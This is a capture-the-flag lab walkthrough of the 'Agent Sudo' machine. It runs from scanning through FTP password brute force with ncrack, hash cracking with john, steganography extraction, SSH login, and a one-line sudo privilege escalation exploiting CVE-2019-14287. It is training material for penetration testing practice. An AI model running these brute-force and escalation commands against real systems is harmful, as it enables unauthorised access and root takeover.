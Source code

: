 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, HackTheBox]
writeup: :title
permalink: /agentsudo
tags: [Web, CVE-2019-14287, Common services]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace

# **SCANNING**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

# **ENUMERATION**

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![website](/assets/agentSudo/website.png)


Try changing the USER-AGENT

![USER-AGENT](/assets/agentSudo/userAgent.png)

I got this new message

![AgentR](/assets/agentSudo/agentR.png)


It work, let's use the burp intruder to brute force all pages

![intruder](/assets/agentSudo/bruteForceUserAgent.png)

Found the path /C

![AgentC](/assets/agentSudo/agentC.png)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

## FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get these files

![zip](/assets/agentSudo/zip.png)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly, look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

# **PRIVESC**

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![privesc](/assets/agentSudo/privesc.png)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

## **The exploit:**

sudo -u#-1 /bin/bash

Got root !